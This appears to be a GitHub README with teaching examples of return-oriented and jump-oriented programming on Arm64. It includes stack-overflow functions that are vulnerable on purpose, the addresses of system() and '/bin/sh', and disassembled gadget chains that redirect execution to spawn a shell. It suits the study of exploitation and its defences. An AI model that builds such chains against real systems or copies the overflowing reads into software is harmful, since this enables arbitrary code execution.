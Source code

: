 ## Return-oriented programming (ROP) and Jump-oriented-programming (JOP) examples on Arm64 platform
When the stack overflow occurs, the examples show how to use the ROP and JOP to start shell with the system api.
### Platform
Hardware: [Neoverse N1 System Development Platform (N1SDP)](https://community.arm.com/developer/tools-software/oss-platforms/w/docs/457/n1sdp-getting-started-guide) 
<br>
OS: Ubuntu 18.04.4 LTS 
<br>
GCC: gcc version 7.5.0 

### Structure
```bash 
├── Makefile
├── jop           # JOP exe       
├── jop.asm       # JOP assembly dump file 
├── jop.c         # JOP source code 
├── jop.data      # JOP input binary data 
├── jop.data.gen  # JOP input binary data generate script
├── rop           # ROP exe 
├── rop.asm       # ROP assembly dump file
├── rop.c         # ROP source code 
├── rop.data      # ROP input binary data  
└── rop.data.gen  # ROP input binary data generate script
```
### system() API address 
Add the below code to make sure the system() api linking into the binary: 
```C
void rop_symbol()
{
	system("/bin/ls"); 
}
```
```assembly
	system("/bin/ls"); // to make the system link to the binary
  400404:	90000280 	adrp	x0, 450000 <_nl_locale_subfreeres+0x1b8>
  400408:	9116e000 	add	x0, x0, #0x5b8
  40040c:	940019b7 	bl	406ae8 <__libc_system>
```
system() api address is **0x406ae8**
### Useful string "/bin/sh" address
According to the glibc do_system source code
```C
      /* Exec the shell.  */
      (void) __execve (SHELL_PATH, (char *const *) new_argv, __environ);
      _exit (127);

  406acc:	d0000240 	adrp	x0, 450000 <_nl_locale_subfreeres+0x1b8>
  406ad0:	b900067f 	str	wzr, [x19, #4]
  406ad4:	91344000 	add	x0, x0, #0xd10
  406ad8:	9400475e 	bl	418850 <__execve>
```
String "/bin/sh" can be found at address **0x450d10**
### ROP example
```C
void rop_bad_func()
{
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;
	fd = open("./rop.data",O_RDONLY);
	read(fd,&u64,512);
}
```

#### Useful gadgets
* gadget 1: main
```
	rop_bad_func();
  40046c:	97ffffec 	bl	40041c <rop_bad_func>
	return 0;
  400470:	52800000 	mov	w0, #0x0                   	// #0
}
  400474:	a8c17bfd 	ldp	x29, x30, [sp], #16
  400478:	d65f03c0 	ret
  
```
Set X30 = next gadget address 

* gadget 2: __deregister_frame_info_bases
```
  44f02c:	f9400bf3 	ldr	x19, [sp, #16]
  44f030:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f034:	d65f03c0 	ret
```
Set X19 from stack,the value is the address string "/bin/sh", and it will set to X0 at next gadget
<br>
Set X30 = next gadget address 
* gadget 3: __deregister_frame_info_bases
```
  44f080:	aa1303e0 	mov	x0, x19
  44f084:	f9400bf3 	ldr	x19, [sp, #16]
  44f088:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f08c:	d65f03c0 	ret
 ```
Set X0 = X19
<br>
Set X30 = system() api address from stack
 #### Calling flow
 
 ```
 rop_bad_func 
   -->(0x400474) main 
      --> (0x44f02c)__deregister_frame_info_bases 
         --> (0x44f080)__deregister_frame_info_bases 
	    --> system 
	       --> system 
	         --> ...
 ```
### JOP examples
```
void jop_bad_func()
{
	jop_func_t func = NULL;
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;

	fd = open("./jop.data",O_RDONLY);
	func = jop_symbol;
	read(fd,&u64,512);
	func();
}
```
#### Useful gadgets
* gadget 1: jop_bad_func
```
	func();
  400468:	f9401fa0 	ldr	x0, [x29, #56]
  40046c:	d63f0000 	blr	x0
```
Set X0 = gadget 2 address from stack 

* gadget 2: _dl_runtime_profile
```
  441d84:	a94307a0 	ldp	x0, x1, [x29, #48]
  441d88:	6d4407a0 	ldp	d0, d1, [x29, #64]
  441d8c:	6d450fa2 	ldp	d2, d3, [x29, #80]
  441d90:	f94077be 	ldr	x30, [x29, #232]
  441d94:	910003bf 	mov	sp, x29
  441d98:	f94003bd 	ldr	x29, [x29]
  441d9c:	910403ff 	add	sp, sp, #0x100
  441da0:	d61f03c0 	br	x30
```
Set X0 = system() address 
<br>
Set X30 = gadget 3 address 

* gadget 3: _dl_runtime_profile
```
  441cf4:	aa0003f0 	mov	x16, x0
  441cf8:	a94607a0 	ldp	x0, x1, [x29, #96]
  441cfc:	a9470fa2 	ldp	x2, x3, [x29, #112]
  441d00:	a94817a4 	ldp	x4, x5, [x29, #128]
  441d04:	a9491fa6 	ldp	x6, x7, [x29, #144]
  441d08:	6d4a07a0 	ldp	d0, d1, [x29, #160]
  441d0c:	6d4b0fa2 	ldp	d2, d3, [x29, #176]
  441d10:	6d4c17a4 	ldp	d4, d5, [x29, #192]
  441d14:	6d4d1fa6 	ldp	d6, d7, [x29, #208]
  441d18:	a9407bbd 	ldp	x29, x30, [x29]
  441d1c:	910403ff 	add	sp, sp, #0x100
  441d20:	d61f0200 	br	x16
```
Set X16 = X0 (system address)
<br>
Set X0 = "/bin/sh" string address
#### Calling flow
```
jop_bad_func 
  --> (0x441d84)_dl_runtime_profile 
    --> (0x441cf4)_dl_runtime_profile 
       --> system
```
 
